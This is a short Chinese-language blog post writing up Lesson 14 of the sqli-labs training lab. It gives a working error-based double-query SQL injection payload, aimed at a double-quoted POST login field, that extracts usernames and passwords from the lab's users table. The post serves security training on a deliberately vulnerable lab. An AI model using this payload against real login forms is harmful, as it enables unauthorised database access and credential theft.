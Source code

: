 ```yaml
---
title: sqli-labs-lession 14 POST双引号双注入变形
date: 2018-09-27 20:40:43
tags: [sqli-labs]
categories: sql注入
---
```

# sqli-labs-lession 14 POST双引号双注入变形 #
---

## 登录界面 ##

![1](/img/sql/Lesson-14/1.png)

## 注入过程 ##

和上一课其实原理一样,检查注入类型即可。

输入`'`号，被吃掉了。`')`也不行。来一个`"`

![2](/img/sql/Lesson-14/2.png)

把上一课的payload改个引号拿来用。

`xxx" union select count(*),concat((floor(rand(0)*2)),'--',(select concat(username,':',password) from security.users limit 0,1))a from information_schema.tables group by a#`

具体细节看Lesson-13

{% post_link sqli-labs-lession-13-POST单引号双注入变形 查看Lesson-13%}